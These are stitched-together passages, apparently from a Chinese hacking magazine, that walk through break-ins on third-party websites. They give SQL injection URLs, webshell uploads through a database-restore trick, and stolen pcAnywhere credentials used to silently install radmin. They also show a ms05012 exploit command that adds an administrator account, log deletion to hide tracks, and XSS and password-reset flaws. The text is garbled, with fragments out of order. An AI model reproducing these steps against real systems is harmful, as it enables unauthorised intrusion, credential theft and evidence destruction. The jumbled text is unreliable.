

对于服务器的安全，大家通常注意的是系统自身的权限配置、安全配置等，但是往往却会忽略了网站以及其他第三方程序带来的种种隐患以及安全问题。这些细小的问题都有可能造成网站的管理员权限被窃取，并给主机的安全带来直接的危害，这些问题是需要管理员注意的，本文就是一个很好的例子。

在网上我们可以看到各种各样的程序，针对一些不知名的程序我们使用什么样的方法去检测呢？下面我就以遇上的一个 ASP + MSSQL 的贴吧程序为例：从首页得知这个程序是从 ASPTB 修改而来的，把原有的 ACCESS 数据库转换为了 MSSQL 数据库模式，而且还保留了生成 HTML 的功能。在这里我们就可以知道程序的大概了，因为生成 HTML 的，所以我们试了 CSS/XSS 跨站脚本攻击漏洞以及现在最流行的上传漏洞，但是都失败了，程序过滤得不错！只好看看程序自身是否存在 SQL 注入了！前阵子几个大站都被入侵了，就是因为 SQL 注入导致的，也是生成 HTML 的模式，所以我拿着 Winsock Expert 把页面的数据包拦截了下来，发现程序的 HTML 页面调用了 ASP 数据库（图1），这样子我们就可以试试能不能 SQL 注入了！



图1

从图1中我们可以知道 http://www.xxx.com/15/795.htm 调用了 dianji.asp 这个 ASP 页面，我们就用这个页面作为突破口，在 IE 地址栏提交 http://www.xxxx.cn/dianji.asp?idcs=795，如图2。



图2

然后我们构造语句，提交 http://www.xxxx.cn/dianji.asp?ids=175%20HAVING%201=1--，返回信息如下：



这个是用来查字段名字的，同时也可以查到表名，但是现在根据回显这个语句已经没有多大利用了！所以我们重新构造语句，查看我们要入侵的主机的系统以及 SQL 数据库版本是多少！提交 http://www.xxxx.cn/dianji.asp?ids=175%20and%201=(select%20@@version)--，信息返回：



还是一台 WIN2003 Enterprise Edition 的主机，我们还可以得知主机的 SQL 数据库使用的是 MSSQL！到这里我就不一一手动测试了！带出小竹的 NBSI 去进行剩下的 SQL 注入检测，如图3。根据 NBSI 的检测，知道了是 SA 权限和 dbo 用户！我们现在可以做许多事情了！继续猜解所有的账号密码，看看有什么好玩的，过了数分钟之后才发现完蛋了！没有权限啊！在程序当中不能够得到 SHELL，只好作罢！剩下的就只有利用 SQL 得到 SHELL 了！NBSI 有把 SHELL 上传上去的功能，我选择了砍客联盟的一个木马上传上去，如图4。有些朋友会问为什么要上传木马而不选择直接建立账号呢？其实没什么特别的原因，因为我不喜欢接触系统权限。





有一个问题我觉得很奇怪，NBSI 写入文本的时候会将写入的数据重复两次！这个问题真不明白为什么！经过几次写入才把木马弄了上去（可能服务器有限制或是其他原因，我测试了几次才把 webshell 写了进去，如图5）！连接上去之后，才发现竟然没有权限！不能够执行以及删除，简直就是没有任何作用！只好接触系统权限从而进行入侵了！用 NB COMMAND 建立了账号登录上去！一个熟悉的界面出现了，如图6！登录上去之后的工作我就不用说了吧，制作肉鸡什么的都可以！不过国内的主机还是不要动的好！最后我删除系统日志和 IIS 日志就退了出来！





# 漏洞的解决

如果主机的权限设置得很好，但是却忘记了这些第三方程序所造成的安全问题的话，之前所做的一切都已经没有任何意义了！首先是脚本方面，如果大家对于 ASP 脚本不熟悉的话，可以使用通用的脚本防注工具进行防护，这样能够避免不必要的 SQL 注入漏洞。其次是 SQL 数据库的设置，在没有必要和非不得已的情况下请不要使用 SA 作为连接 SQL 数据库的账号，这样可以确保数据库以及主机的权限不会出现问题！应该给予低权限，这样就算拿到注入点也不能做什么事情！文章到此就已经从 HTML 的注入到获取系统权限的过程都写完了！希望各位站长以及管理员能够多多注意自己网站的程序以及第三方程序的可靠性和安全性！

## 巧用CSS文件获取入侵

前些日子在网上看到了一个关于 CSS 文件在百度中搜索网站目录的文章，事实上我们完全可以利用 CSS 文件来抓些肉鸡。我们先来看看什么是 CSS 文件。CSS 就是一种叫做样式表（stylesheet）的技术，也有的人称之为层叠样式表（Cascading Stylesheet）。在主页制作时采用 CSS 技术，可以有效地对页面的布局、字体、颜色、背景和其他效果实现更加精确的控制，只要对相应的代码做一些简单的修改，就可以改变同一页面的不同部分，或者改变不同网页的外观和格式。



我把我的入侵思路大致画了出来（画得不好，还请见谅），如图1。网站的目录我们可以通过利用搜索 CSS 文件获得，然后通过下载数据库可以获得管理员的用户名和密码，然后从网站目录就可以直接进入后台，获得 webshell，然后再提升权限。好了，让我举个例子来看看怎么利用它吧。首先我们去百度搜索 css.css（也可以搜索其他文件，我只是举个例子），随便向后翻几页，找到如图2所示的页面，图2中搜索到的站点都符合我们的要求。随便选择一个你喜欢的，然后打开它，我们看到了什么？网站的目录清楚地显示了出来，如图3，图3中的 book11122.mdb 就是它的数据库，我们把它的数据库下载下来，可以使用辅臣数据库浏览器轻松拿到管理员的用户名和密码了，我用的是微软的 ACCESS 得到的结果，如图4。

户密码是加过密的，那就要靠你自己了。

START R_SERVER 命令启动 radmin 服务，这样 radmin 就在他的机器上悄悄地运行了，我们连上看看，如图7。



图2



图5



图6



图7

本文只是提供给大家一个思路，一个方法，实际中还有很多问题需要自己去解决。如果本文有什么不对的地方欢迎大家指出！

（文章中涉及到的程序：捕捉数据库浏览器、PCAnyPass、radmin，已经收录于光盘中）



图3



图4

下面就是找后台的路径了。其实一点都不费心，还是看图3，后台的路径就在眼前，直接点击 login.asp 就可以看到后台登录页面了。原来是一个留言板（下载数据库之前竟然连看都没看），后台基本没什么可以利用的，想到到现在还没有去对方的网站看过呢。呵呵，原来是一个知识产权公司，有个动网 7.0sp2 的论坛，使用刚才得到的留言板密码尝试登录，成功进入，webshell 远在咫尺了。首先在上传处把我改的马儿改成 .gif 格式上传上去，记录下上传路径，然后进入后台，来到数据库备份的地方，选择恢复数据库，如图5，下面填入我们要得到的 webshell 的路径，上面填我们刚刚上传的 gif 格式马儿，备份成功后，尝试登录，我们的 webshell 出现了，如图6。本来到这里拿到 webshell 就可以了，可浏览文件后，却发现了对方安装了 PCANYWHERE，在 C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere\ 目录下，顺手下载它的 GIF 文件，然后拿出 PCANYPASS 打开那个密钥文件就可以看到现成的用户名和密码了。在本地安装完 PCANYWHERE 后，然后通过 PCANYWHERE 把 radmin 的 AdmDll.dll、r_server、raddrv.dll 传到对方的 c:\winnt\system32 目录下，然后在命令行中输入 R_SERVER /INSTALL /SILENCE，安装 radmin，使用 NET

> 上接251页

```bash
G:\test>ms05012-2 "e:\winnt\system32\webfldrs.msi" "net localgroup administrators test /add"
```

程序同样提示我们命令可能已经被执行了。如图6，我们使用 net localgroup administrators 查看管理员用户，就会发现 test 用户已经被我们成功添加进去了。如图7。测试完全通过了，不论是在本地执行，还是远程执行，都可以成功提升权限。

> 注意：溢出程序执行的命令只能是 65 个字符之内的，不过这也够用了，最起码改管理员密码，或是运行某个木马或后门程序是足够的了。

### 三、总结

漏洞测试过程就讲完了，不知道读者朋友能学到些什么。如果要让那个溢出程序更通用一些的话，就得解决上边的第二个问题，或是使用 adminpak.msi 来替代 webfldrs.msi。好了，如果各位读者有兴趣的话，不妨自己去研究一下，如果有什么新发现，别忘记到 X 的论坛上来一起讨论哟！

# 一个人的战争

## 漏洞漫漫的飞鸽

玄猫 Daniel[BlackWoods]

### 一、前言

初识飞鸽似乎还是在 2002 年，那时它推出了一个叫飞鸽邮局的东西，提供 280M 的空间（在当时算很大了），我当时学习 SQL Injection 的时候，曾用它练过手。经过几年的时间，这个站点已经发展得不小了，于是我决定对它进行一次安全检测，发现漏洞漫天飞啊，而且很有意思。整个网站的栏目和系统都是各有特色，有 .net 的、php 的，还有 asp 的，真不知道他们是多少人一点一点拼着开发起来的。从检测的结果来看，漏洞出得都很幼稚……

cookies 外更强的利用方法，譬如直接利用管理员的表单来进行一些操作。大家可以看看以前的杂志。在下面的内容中，我们试着用代码 `<script>alert("玄猫啊玄猫，玄猫要高考咯")</script>` 来测试能不能在页面上运行我们的 Javascript 脚本。我们打开一个写日记的页面，先测试内容能不能写跨站脚本……

### 二、网站程序漏洞介绍

玄猫的习惯是先从系统功能来看，这个地方出的漏洞一般都是比较危险的。

- 1. **取回密码验证不严导致可以修改任意用户的密码漏洞**
- 2. **网络日记内容跨站漏洞**
- 3. **日记本介绍跨站漏洞**
- 4. **随意以任何用户身份添加日记漏洞**

人在江湖走，难免忘密码，找回密码功能当然是现在涉及会员管理的网络程序的“标配”了，但是找回密码功能容易出现一个大的纰漏就是验证不严……通过修改隐藏域和提交地址，可导致任意用户密码被重置。

首先来看日记服务，一般来说对于像日记这种一个人写、N 多人看的东西，我们要考虑的就是 XSS 跨站漏洞了……作者进一步演示了在标题、内容等字段注入脚本并触发弹窗。

